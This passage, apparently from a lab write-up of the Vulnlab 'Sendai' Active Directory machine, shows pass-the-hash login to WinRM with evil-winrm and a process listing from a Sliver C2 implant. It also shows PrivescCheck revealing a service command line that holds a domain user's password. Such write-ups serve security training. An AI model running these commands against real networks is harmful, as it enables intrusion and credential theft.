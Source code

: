 We can then use the `mgtsvc$` NT hash to authenticate to WinRM using PTH.

```
└─$ evil-winrm --ip 10.10.98.227 -u 'mgtsvc$' -H '52ece[...snip...]4c1a20'
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> whoami
sendai\mgtsvc$
```

# PrivEsc Method #1 - PrivEscCheck

If you may have noticed before, ADCS is running on the machine. This can be assumed due to the `ca-operators` domain group within the environment, and also due to the fact that port 9389 is running (this isn't conclusive, but generally I've seen this port open with machines running ADCS).

The only issue is that we do not currently possess the capabilities to retrieve vulnerable ADCS templates, as we do not control a user account within the `ca-operators` group.

![](/images/vulnlab/sendai-vl/h.png)

We'll need to take control of either `Anthony.Smith` or `Clifford.Davey` in order to exploit ADCS. If you scan for vulnerable ADCS templates using any of the domain accounts we have access to, you won't find any vulnerable templates (at least to what I could see).

Given that we have access to the filesystem at this point, my assumption is that we'll need to do a bit of credential hunting.

My normal attack methodology would be to look through odd files or potentially cached DPAPI credentials with tools like [Seatbelt](https://github.com/GhostPack/Seatbelt), however I discovered an odd service that was running on the machine when I ran a scan with `ps`.

```
sliver (sendai) > ps

 Pid    Ppid   Owner            Arch     Executable                                  Session 
====== ====== ================ ======== =========================================== =========
......
2584   628                              helpdesk.exe                                -1
```

This executable doesn't seem to be ran naturally, at least in the AD environments that I've tested in the past. We can receive if any usernames or passwords were passed into this executable in memory (during the time of its execution) by using tools such as [PrivEscCheck](https://github.com/itm4n/PrivescCheck).

```
*Evil-WinRM* PS C:\temp> Import-Module .\PrivescCheck.ps1
*Evil-WinRM* PS C:\temp> Invoke-PrivescCheck
......
Name        : Support
DisplayName :
ImagePath   : C:\WINDOWS\helpdesk.exe -u clifford.davey -p [...snip...] -k netsvcs
User        : LocalSystem
StartMode   : Automatic
```
